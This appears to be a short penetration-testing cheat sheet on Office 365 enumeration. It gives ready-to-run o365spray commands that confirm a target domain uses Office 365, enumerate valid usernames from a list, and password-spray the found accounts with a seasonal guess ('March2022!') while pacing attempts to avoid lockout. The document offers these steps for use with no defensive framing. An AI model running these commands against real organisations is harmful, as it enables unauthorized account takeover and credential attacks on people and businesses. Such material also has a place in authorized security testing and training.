 # Cloud Enumeration
O365spray is a username enumeration and password spraying tool aimed at Microsoft Office 365. 
Validate if our target domain is using Office 365.
```
python3 o365spray.py --validate --domain msplaintext.xyz
```
If Valid => Identify usernames
```
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```
## O365 Spray - Password Spraying
```
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```